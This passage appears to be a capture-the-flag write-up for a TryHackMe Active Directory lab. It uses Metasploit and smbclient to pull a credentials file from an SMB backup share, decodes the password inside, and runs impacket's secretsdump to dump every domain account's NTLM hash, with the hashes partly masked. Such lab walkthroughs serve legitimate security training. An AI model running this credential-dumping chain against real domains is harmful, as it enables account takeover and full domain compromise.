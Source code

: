 We can use metasploit for download a specific file from the b****p folder. 

```sh
msf6 auxiliary(admin/smb/download_file) > show options

Module options (auxiliary/admin/smb/download_file):

   Name         Current Setting         Required  Description
   ----         ---------------         --------  -----------
   FILE_RPATHS                          no        A file containing a list remote files relative to the share to operate on
   RHOSTS       10.10.124.175           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPATH        b****************s.txt  no        The name of the remote file relative to the share to operate on
   RPORT        445                     yes       The SMB service port (TCP)
   SMBDomain    spookysec.local         no        The Windows domain to use for authentication
   SMBPass      m************5          no        The password for the specified username
   SMBSHARE     b****p                  yes       The name of a share on the RHOST
   SMBUser      s*******n               no        The username to authenticate as
   THREADS      1                       yes       The number of concurrent threads (max one per host)
```

Or we can use smbclient to connect to the B*****p-Share and read the file on the share. 

```sh
┌──(fr3akazo1d💀fr3ak0ut)-[~/Pen-Testing/THM/Boxes/AttacktriveDirectory]
└─$ smbclient \\\\spookysec.local\\backup -U s*******n                       
Enter WORKGROUP\svc-admin's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 21:08:39 2020
  ..                                  D        0  Sat Apr  4 21:08:39 2020
  b****************s..txt              A       48  Sat Apr  4 21:08:53 2020

		8247551 blocks of size 4096. 3879238 blocks available
smb: \> more ****************s..txt 
getting file \****************s..txt of size 48 as /tmp/smbmore.qexQe1 (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> 
```

we now have a base64 hash, we can decode the hash and we have now the password for the b****p user. 

With this user we cann run the script from impacket "secretdump.py" to get the hashes of everyuser on the domain. 

```sh                                                                                                               
┌──(fr3akazo1d💀fr3ak0ut)-[/git/impacket/examples]
└─$ python3 secretsdump.py -just-dc b****p@spookysec.local
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0******************************c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:3******************************0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0******************************1:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5******************************4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5******************************4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9******************************b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:4******************************e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b******************************b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:c******************************7:::
```